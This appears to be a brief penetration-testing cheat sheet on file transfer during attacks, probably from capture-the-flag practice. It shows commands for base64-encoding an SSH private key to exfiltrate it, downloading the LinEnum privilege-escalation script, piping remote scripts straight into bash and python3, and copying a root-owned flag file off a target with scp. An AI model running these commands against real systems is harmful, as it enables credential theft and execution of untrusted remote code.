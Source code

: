 ### Base64
```
## converting file to Base64
cat id_rsa |base64 -w 0;echo

## converting back
echo -n '<encoded_String>' | base64 -d > id_rs
```
## tools
### wget
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
### curl
```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
## files downloads
### curl
```
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
### wget
```
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
## SCP
```
scp plaintext@$target:/root/myroot.txt .
```
